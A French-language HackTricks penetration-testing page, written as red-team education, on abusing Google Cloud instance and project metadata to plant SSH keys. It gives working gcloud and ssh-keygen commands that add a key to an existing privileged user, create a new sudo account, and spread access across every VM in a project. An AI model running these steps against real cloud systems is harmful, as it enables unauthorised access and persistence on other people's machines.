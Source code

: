 # GCP - Ajouter des métadonnées SSH personnalisées

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modification des métadonnées sur une instance pourrait entraîner **des risques de sécurité importants si un attaquant obtient les autorisations nécessaires**.

### **Incorporation de clés SSH dans les métadonnées personnalisées**

Sur GCP, les **systèmes Linux** exécutent souvent des scripts à partir de l'[Environnement invité Linux Python pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un composant critique de cela est le [démon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui est conçu pour **vérifier régulièrement** le point de terminaison des métadonnées de l'instance pour les **mises à jour des clés publiques SSH autorisées**.

Par conséquent, si un attaquant peut modifier les métadonnées personnalisées, il pourrait faire en sorte que le démon trouve une nouvelle clé publique, qui sera traitée et **intégrée dans le système local**. La clé sera ajoutée dans le fichier `~/.ssh/authorized_keys` d'un **utilisateur existant ou potentiellement créer un nouvel utilisateur avec des privilèges `sudo`**, en fonction du format de la clé. Et l'attaquant pourra compromettre l'hôte.

### **Ajouter une clé SSH à un utilisateur privilégié existant**

1. **Examiner les clés SSH existantes sur l'instance :**
- Exécutez la commande pour décrire l'instance et ses métadonnées afin de localiser les clés SSH existantes. La section pertinente dans la sortie se trouvera sous `metadata`, en particulier la clé `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Faites attention au format des clés SSH : le nom d'utilisateur précède la clé, séparé par un deux-points.

2. **Préparer un fichier texte pour les métadonnées de clé SSH :**
- Enregistrez les détails des noms d'utilisateur et de leurs clés SSH correspondantes dans un fichier texte nommé `meta.txt`. Cela est essentiel pour conserver les clés existantes tout en ajoutant de nouvelles.

3. **Générer une nouvelle clé SSH pour l'utilisateur cible (`alice` dans cet exemple) :**
- Utilisez la commande `ssh-keygen` pour générer une nouvelle clé SSH, en veillant à ce que le champ de commentaire (`-C`) corresponde au nom d'utilisateur cible.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Ajoutez la nouvelle clé publique à `meta.txt`, en imitant le format trouvé dans les métadonnées de l'instance.

4. **Mettre à jour les métadonnées de clé SSH de l'instance :**
- Appliquez les métadonnées de clé SSH mises à jour à l'instance en utilisant la commande `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Accéder à l'instance en utilisant la nouvelle clé SSH :**
- Connectez-vous à l'instance avec SSH en utilisant la nouvelle clé, accédant à l'interpréteur de commandes dans le contexte de l'utilisateur cible (`alice` dans cet exemple).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Si aucun utilisateur intéressant n'est trouvé, il est possible d'en créer un nouveau auquel seront accordés des privilèges `sudo` :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

Il est possible d'élargir la portée de l'accès SSH à plusieurs Machines Virtuelles (VMs) dans un environnement cloud en **appliquant des clés SSH au niveau du projet**. Cette approche permet l'accès SSH à n'importe quelle instance dans le projet qui n'a pas explicitement bloqué les clés SSH au niveau du projet. Voici un guide résumé :

1. **Appliquer des Clés SSH au Niveau du Projet :**
- Utilisez la commande `gcloud compute project-info add-metadata` pour ajouter les clés SSH du fichier `meta.txt` aux métadonnées du projet. Cette action garantit que les clés SSH sont reconnues sur toutes les VMs du projet, sauf si une VM a activé l'option "Bloquer les clés SSH au niveau du projet".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Accéder aux Instances en Utilisant les Clés au Niveau du Projet :**
- Avec les clés SSH au niveau du projet en place, vous pouvez accéder en SSH à n'importe quelle instance dans le projet. Les instances qui ne bloquent pas les clés au niveau du projet accepteront la clé SSH, accordant ainsi l'accès.
- Une méthode directe pour accéder en SSH à une instance est d'utiliser la commande `gcloud compute ssh [INSTANCE]`. Cette commande utilise votre nom d'utilisateur actuel et les clés SSH définies au niveau du projet pour tenter l'accès.


# Références
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
